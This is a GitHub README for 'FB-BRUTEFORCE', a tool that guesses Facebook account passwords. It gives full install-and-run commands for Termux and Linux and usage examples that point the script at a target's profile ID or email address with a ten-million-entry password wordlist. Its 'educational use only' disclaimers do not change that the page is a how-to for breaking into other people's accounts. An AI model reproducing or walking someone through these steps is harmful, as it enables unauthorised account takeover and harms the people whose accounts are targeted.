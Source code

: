 ## Warning🚨:

**⚠️Misuse of information on this website/tool may result in criminal charges against the individuals concerned.  The authors and WHITEDH4CKER will not be held responsible in case any criminal charges are filed against any person misusing the information on the website/tool. This website/tool is designed for educational purposes only.⚠️**

## Screenshots:
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/Screenshot_2.png)
***
![App Screenshot](https://github.com/WHITEDH4CKER/FB-BRUTEFORCE/blob/main/Screenshots/FB-ATTACK.png)
***

## INSTALLATION:
### For Termux
> **👉Termux version from Play Store is not supported since 2019, please use the latest version from F-Droid Store!Download Now:📥 https://f-droid.org/packages/com.termux/**

### [📸👉 Watch video](https://www.instagram.com/reel/C1vTtrLSxv-/?utm_source=ig_web_copy_link&igsh=MzRlODBiNWFlZA==)

#### ➡️ Type the following commands To use FB-BRUTEFORCE in Termux:

```shell script
apt update && apt upgrade -y
```

```shell script
pkg install git -y
```

```shell script
pkg install python -y
```

```shell script
pip install mechanize
```

```shell script
pip install colorama termcolor requests
```

```shell script
git clone https://github.com/WHITEDH4CKER/FB-BRUTEFORCE
```

```shell script
cd FB-BRUTEFORCE
```

```shell script
python FB-ATTACK.py
```
***

### For Linux:
#### ➡️ Type the following commands To use FB-BRUTEFORCE in linux:

```shell script
sudo apt update && sudo apt upgrade
```

```shell script
sudo apt install python3-pip
```

```shell script
pip install colorama termcolor requests
```

```shell script
pip install mechanize
```

```shell script
git clone https://github.com/WHITEDH4CKER/FB-BRUTEFORCE
```

```shell script
cd FB-BRUTEFORCE
```

```shell script
python FB-ATTACK.py
```
## Usage
   ```
          Usage: python FB-ATTACK.py -t "target_id" -w "wordlist_location" 
Examples:
     |-------->
     | python FB-ATTACK.py -g https://facebook.com/target_profile_url_for_get_id
     |-------->
     | python FB-ATTACK.py -t 100001013078780 -w 10MPASS.txt 
     |-------->
     | python FB-ATTACK.py -t target@gmail.com -w 10MPASS.txt
     |-------->
     |python FB-ATTACK.py -t target@gmail.com -s checkpassword
     |-------->
```
## License
This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## 👤My Account For Support👤:

### ➡️ [Instagram](https://Instagram.com/WHITEDH4CKER)
### ➡️ [Facebook page](https://www.facebook.com/WHITEDH4CKER)
### ➡️ [Telegram group](https://t.me/WHITEDR00M)
### ➡️ [WhatsApp channel](https://whatsapp.com/channel/0029VaIlY264IBh9T2iaey0r)

***
### <p align="center">```And Thanks for choosing this tool Support Us !``` 
  
 ## <p align="center">```WHITEDH4CKER [DEV_SANJAY]```

<p align="right"> Last FAQ Update: 29.12.2023 </p>
